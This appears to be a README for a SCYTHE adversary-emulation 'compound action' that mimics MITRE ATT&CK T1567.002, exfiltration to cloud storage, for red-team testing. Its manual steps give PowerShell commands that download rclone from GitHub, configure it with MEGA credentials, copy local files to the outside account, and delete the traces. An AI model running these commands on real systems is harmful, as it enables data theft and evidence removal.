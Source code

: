 # T1567.002 - Exfiltration to Cloud Storage
This compound action exfiltrates data using rclone to your chosen cloud storage service.

## Import into SCYTHE
1. Login to the SCYTHE instance where you want to import the Compound Action.
2. Click Threat Manager - Migrate Threats
3. Under "Import Threat" click “Choose File” and select the JSON file you downloaded from GitHub
4. Click Import and OK when complete
5. Click Threat Manager - Threat Catalog
6. Find the imported Compound Action and click the tag icon 
7. Tag the MITRE ATT&CK Technique for the Compound Action

## Preparation
1. Create an account in the desired cloud service supported by rclone: https://rclone.org/overview/
2. Modify step 9 of the threat with your credentials.
3. Modify step 10 with the data you want to exfiltrate.

## Manual Execution
1. Check if rclone is being used on the system: powershell dir %USERPROFILE%\.config\rclone\rclone.conf
2. powershell mkdir %USERPROFILE%\.config
3. powershell mkdir %USERPROFILE%\.config\rclone
4. powershell "Invoke-Command -ScriptBlock { Invoke-WebRequest "https://github.com/scythe-io/community-threats/blob/master/CompoundActions/T1567.002%20-%20Exfiltration%20to%20Cloud%20Storage/VFS/rclone.zip?raw=true" -OutFile "$env:userprofile\.config\rclone\rclone.zip"}"
5. powershell Expand-Archive -Path "$env:userprofile\.config\rclone\rclone.zip" -DestinationPath $env:userprofile\.config\rclone\
6. Configure rclone with your credentials: %USERPROFILE%\.config\rclone\rclone.exe config create remote mega user <MEGA USER> pass <MEGA PASS>
7. Copy the files from the local system to the MEGA account: %USERPROFILE%\.config\rclone\rclone.exe copy source:sourcepath dest:destpath
8. Clean up: rmdir /Q /S "%USERPROFILE%\.config"


